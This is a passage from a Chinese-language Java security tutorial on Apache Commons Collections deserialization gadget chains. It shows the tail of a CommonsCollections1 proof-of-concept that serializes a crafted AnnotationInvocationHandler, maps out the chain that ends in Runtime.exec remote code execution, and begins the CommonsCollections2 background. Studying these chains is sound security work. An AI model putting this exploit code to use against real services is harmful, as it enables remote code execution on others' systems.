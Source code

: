 ```java
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), handler);

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, mapProxy);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc1"));
            outputStream.writeObject(invocationHandler);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc1"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }

}
```
调用链：
```
AnnotationInvocationHandler.readObject()
  Proxy.entrySet() // readObject调用了proxy的某些方法，回调invoke
    Proxy.invoke() === AnnotationInvocationHandler.invoke()
      LazyMap.get()
         ChainedTransformer.transform()
          ConstantTransformer.transform() // 获取Runtime.class
          InvokerTransformer.transform()   // 获取Runtime.getRuntime
          InvokerTransformer.transform()   // 获取Runtime实例
          InvokerTransformer.transform()   // 调用exec方法触发rce
```

上面的poc在Java 7的低版本使用，在Java 8u71 之后`sun.reflect.annotation.AnnotationInvocationHandler`的readObject被修改了，不再有针对我们构造的map的赋值语句

参考：
[JAVA反序列化 - Commons-Collections组件](https://xz.aliyun.com/t/7031)
[Java安全之Commons Collections1分析](https://www.cnblogs.com/nice0e3/p/13798371.html)

## CommonsCollections2
测试依赖版本 commons-collections4 4.0，导入包，[https://mvnrepository.com/artifact/org.apache.commons/commons-collections4/4.0](https://mvnrepository.com/artifact/org.apache.commons/commons-collections4/4.0)

>测试环境：
JDK 1.7/JDK 1.8
Commons Collections 4.0
javassit

### 前置知识
#### PriorityQueue
优先队列PriorityQueue是Queue接口的实现，可以对其中元素进行排序，可以放基本数据类型的包装类（如：Integer，Long等）或自定义的类，默认情况下，优先级队列会根据自然顺序对元素进行排序
因此，放入PriorityQueue的元素，必须实现 Comparable 接口，PriorityQueue 会根据元素的排序顺序决定出队的优先级。如果没有实现 Comparable 接口，PriorityQueue 还允许我们提供一个 Comparator 对象来判断两个元素的顺序
